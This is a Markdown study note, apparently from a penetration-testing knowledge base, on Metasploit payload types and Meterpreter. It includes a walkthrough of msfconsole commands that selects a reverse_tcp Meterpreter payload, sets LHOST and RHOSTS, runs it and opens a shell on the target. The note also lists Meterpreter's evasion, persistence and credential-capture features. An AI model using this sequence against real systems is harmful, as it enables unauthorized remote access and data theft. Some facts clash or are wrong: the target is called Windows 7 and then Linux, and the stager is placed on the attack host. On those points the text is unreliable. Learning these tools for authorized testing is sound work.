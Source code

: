 # Metasploit Payloads

A #Metasploit #Payload is a supplemental module that initiates a shell on a remote host that an attacker can use to access it. This is often sent in tandem with an exploit module to infiltrate a vulnerable service to establish a reverse connection on the target host.

If the payload is staged, there will be a / present in its name between the payload type and the payload name. For example, the payload windows/shell_bind_tcp is unstaged whereas windows/shell/bind_tcp is staged. 

### Payload Types

There are three types of payloads in the Metasploit Framework: Singles, Stagers, and Stages.

#### Singles

A single payload contains an exploit and the shell code for it to serve as an all-in-one solution that is more stable than other types. These are alternatively known as self-contained payloads and offer immediate results after execution. 

#### Stagers

Stagers work in conjunction with Stages payloads to perform a specific task. They are installed on the target host and wait for communication from a stage that has performed a task on the same target. They are used to establish a connection to the target host and are small compared to singles. 

#### Stages

Stages are components of payloads that are downloaded by the stagers and provide added functionality like Meterpreter, #VNC injection, and other tools. The stages use the stagers. 

### Staged Payloads

Staged payloads are modular exploitation methods that are functionally segregated to ensure separation of the different functions. It divides the payload into different code blocks that work individually but chain the attack together when working as a whole. The end goal is to grant unauthorized access to the target host. 

These payloads are designed to be compact and intended to be a discreet method of connecting with the intention of avoiding anti-virus ( #AV) tools and Intrusion Prevention Systems ( #IPS).

Stage0 represents the shellcode transmitted to the target host to form the reverse connection. Payloads will refer to these reverse shells as reverse_tcp, reverse_https, and bind_tcp. 

Use the following command within the #msfconsole to view the available payloads:

>show payloads

When a reverse shell is established, it will be contained within the security trust zone and it often triggers Intrusion Detection Systems ( #IDS) or Intrusion Prevention Systems ( #IPS).

### Meterpreter Payloads

#Meterpreter is a multi-faceted payload that uses #DLL injection to stabilize reverse shells. It is difficult for security tools to detect and persists through system reboots of the target host. It is stored within the memory leaving no evidence of its existence on the storage devices of the target host with the ability to dynamically load scripts and plugins. 

After Meterpreter is executed you will have access to the interface, which is similar to msfconsole. It is capable of keystroke capture, password hash collection, microphone tapping, screenshotting, and imitating security tokens and cookies. It is most often used to install and load plugins on the target host.

### Searching

In the example given, we will be seeking the Meterpreter Payload for Windows 7 (x64). There are many options for this module, so we will need to narrow down our search using #grep. 

We can begin by using grep to find all related Meterpreter modules with the following command:

>grep meterpreter show payloads
>grep -c meterpreter show payloads

These commands will return 14 payloads. We can use the following command to narrow our search to reverse_tcp:

>grep meterpreter grep reverse_tcp show payloads
>grep -c meterpreter grep reverse_tcp show payloads

This should have reduced the list of payloads to only three results, which is much more managable.

### Selecting Payloads

We will need to determine the payload we want to use by looking through the options related to each module. We can then set the payload using the index number \<no.>. 

Use the following sequence of commands to achieve this:

>show options
>grep meterpreter grep reverse_tcp show payloads
>set payload 15

This should set the reverse_tcp payload as our active module. We should then review the options for this module:

>show options

When we are within the payload module - we can use the show payloads command to view the payloads that are known to work on our target host. In this case it is a windows machine so the module will display payloads related to that #OS. 

A new option field should be present with our more specific results related to the payload parameters. 

We will need to set the newly presented parameters LHOST and LPORT to utilize our payload.

### Using Payloads

We will need to set the following parameters for the target host and our own machine:

- RHOSTS - the #IP address of the target host.
- RPORT - the designated port of the target host - in this case the default value 445 for #SMB is correct.
- LHOST - the attack host's IP address. Use the 'ifconfig' command to find this value.
- LPORT - the attack host's designated port - there should be no port assigned by default which is correct in our case.

### Configuration of Payload and Exploit

Use the following sequence of commands to configure our parameters:

>ifconfig

After learning our attack host IP address 10.10.10.10 :

>set LHOST 10.10.10.10
>set RHOSTS 69.69.69.69
>run

This should successfully establish a reverse shell with Meterpreter on the target host. We can then try running commands to learn the username. Since this is a #Linux based host, use the getuid command:

>getuid

We can also seek further explanation about the Meterpreter interface by using the help command:

>help

This will reveal a very long list of commands and features with descriptions about how they are implemented and what they do through the Meterpreter command-line interface ( #CLI).

### Navigation

We usually want to see information about the Users on the target host. We can see more information by navigating to the Users directory with the following command:

>cd Users
>ls
>shell

The shell command will create Channel 1 which will place us into the CLI of the target host. The channel represents our connection established between our attack host and the target host which is  a reverse #TCP connection facilitated by the Meterpreter Stager and Stage. We activated the stager on our attack host, which waited for a response from the stage payload on the target host. We now have a reverse shell to work from. Meterpreter can also navigate and execute on the target without this shell with the same level of privilege.

